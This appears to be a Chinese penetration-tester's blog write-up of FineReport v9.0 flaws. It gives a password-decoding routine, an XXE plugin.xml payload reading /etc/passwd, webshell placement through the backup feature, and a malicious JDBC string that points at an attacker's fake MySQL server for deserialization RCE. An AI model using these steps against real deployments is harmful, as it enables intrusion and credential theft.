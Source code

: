 ```yaml
---
layout: post
title: 帆软报表v9.0 Vulnerability
summary: 一次针对帆软v9.0系统的渗透发现的脆弱点
featured-img: fr
---
```


## TL; DR

网上公开的目前只有帆软v8.0部分漏洞，而v9.0中这几个漏洞已修（HW快开始了）

本文记录针对帆软v9.0渗透中发现的脆弱点

+ 前台备份文件泄露（默认路径）
+ 后台XXE
+ 后台GetShell
+ 后台任意jdbc串连接导致
  + 本地文件读取
  + 反序列化RCE

## 前台备份文件泄露

帆软v9.0提供了备份文件功能

默认情况下（官方示例https://help.finebi.com/finebi4.1/doc-view-517.html）的备份文件路径是：

```
path="${WEB_REPORT}/bakup"
```

存在以下几种备份（就是bakup，不是我笔误）：

```
all_bakup  
config_bakup  jar_bakup  log_bakup
plugins_bakup  reportlets_bakup  update_bakup
```

备份内部的路径为

```
autobackup/YYYY.MM.DD<space>HH.MinMin.SS
manualbackup/<NAME(default is timestamp)>
```

如果确认WEB根目录下存在备份目录，可以尝试猜解timestamp

我所遇目标系统privilege.xml路径：

```
http://IP/WebReport/bakup/config_bakup/autobackup/2020.04.07%2018.10.10/resources/privilege.xml
```

privilege.xml中存放了编码后的admin密码，反编译jar可知编码算法

```java
// fr-core-9.0.jar/com/fr/stable/CommonCodeUtils.java
public class Main {
    private static final int[] PASSWORD_MASK_ARRAY = {19, 78, 10, 15, 100, 213, 43, 23};

    public static String passwordDecode(String paramString) {
        if (paramString != null && paramString.startsWith("___")) {
            paramString = paramString.substring(3);
            StringBuilder stringBuilder = new StringBuilder();
            byte b1 = 0;
            for (byte b2 = 0; b2 <= paramString.length() - 4; b2 += 4) {
                if (b1 == PASSWORD_MASK_ARRAY.length)
                    b1 = 0;
                String str = paramString.substring(b2, b2 + 4);
                int i = Integer.parseInt(str, 16) ^ PASSWORD_MASK_ARRAY[b1];
                stringBuilder.append((char)i);
                b1++;
            }
            paramString = stringBuilder.toString();
        }
        return paramString;
    }

    public static void main(String[] args) {
        String pwd = "___0022...";
        System.out.println(passwordDecode(pwd));
    }
}

```

## 后台XXE

后台有上传插件功能，上传文件为zip格式，插件元信息放在压缩包的plugin.xml中

将WebShell和plugin.xml压缩后上传，FineReport在解析plugin.xml时存在XXE

至于源码我就不打算分析了，感兴趣可以自己反编译看一下，教科书式的XXE写法。可能是因为在后台，一直没有人提出

两种利用：

+ 读文件，但XXE回显在插件管理栏时有字数限制，可FTP OOB。而且Java的XXE是可以列目录的，但其实后台有列目录接口，后面讲
+ SSRF，Windows下低版本JDK默认会启用NTLM鉴权，可以破解hash或hash relay

plugin.xml示例：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<plugin>
    <id>EVIL</id>
    <name>&b;</name>
    <active>yes</active>
    <version>0.0.1</version>
    <env-version>8.0</env-version>
    <vendor>finereport.wei</vendor>   
    <jartime>2017-11-08</jartime>
    <description>&b;</description>
    <extra-report>
        <ActorProvider class="com.fr.wei.plugin.h5reportnew.server.report.Html5PageActorProvider"/>
    </extra-report>
    <extra-platform>
        <PlateProvider class="com.fr.wei.plugin.h5reportnew.server.fs.Html5ManagementPlateProvider"/>
    </extra-platform>
</plugin>

```

## 后台GetShell

压缩包中的WebShell解压后会放在

```
WEB-INF/plugins/plugin-EVIL-[VERSION]
```

结合手动备份功能，将其备份到WEB目录下

即可访问

```
http://IP/WebReport/bakup/plugins_bakup/manualbackup/EVIL/plugins/plugin-EVIL-0.0.1/1.jsp
```

假如备份文件路径不在WEB目录下，其实后台给了设置备份文件存储路径的功能，可以将WebShell转到可访问目录中

```
智能运维 -> 备份还原 -> 设置 -> 备份路径
```

我所遇目标系统就是通过这种方式getshell

而且这里在选择备份路径时，是有列目录功能的

```
POST
/WebReport/ReportServer?op=fs_bakrestore&cmd=folder_tree

serverID=&optype=get_nodes&parentID=/root&layer=1
```

结合列目录功能，某些操作也会更加容易

## 任意JDBC串连接

数据库操作可导致反序列化，文章：

https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649721398&idx=3&sn=ffc2b37268b51b61ed4edba5683cd5b5&chksm=888cba59bffb334fabaf35ffb588d7f0d9ed2d4959d7bfd3d4fa137821a23b7b525c2b1a33b3&mpshare=1&scene=23&srcid=&sharer_sharetime=1587033454342&sharer_shareid=04fc381b7838be4b14d617ae0623e947#rd

目标系统是`mysql-connector-java-5.1.6-bin.jar`，在文章所说的可攻击范围内（我通过`ysoserial.URLDNS`验证确实可成功反序列化）

攻击需要结合本地gadgets，反编译`fr-third-9.0.jar`发现存在`springframework`，但spring版本不合，反编译后发现没有`springframework.beans.factory.support.AutowireUtils`和`springframework.core.SerializableTypeWrapper`。且目标是JDK8u242，就算spring是漏洞版本也无法攻击

简单尝试后并没有找到可利用的gadgets，如果日后有机会可以尝试挖掘`fr-core, fr-third, fr-chart`等jar包

在有可利用gadget情况下:

将`fr-third-9.0.jar`导入本地mvn仓库

```
mvn install:install-file -Dfile='fr-third-9.0.jar' -DgroupId='com.fr.third' -DartifactId='fr-third' -Dversion='9.0' -Dpackaging=jar
```

将gadget的package的导入的路径修改为`com.fr.third.xxx`，修改pom.xml加入`fr-third dependency`后重新编译

服务端`Fake_MySQL_Server`监听，后台修改JDBC串为

```
jdbc:mysql://IP:3306/db?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_GADGET_CMD
```

修改后随意触发一处查询即可RCE
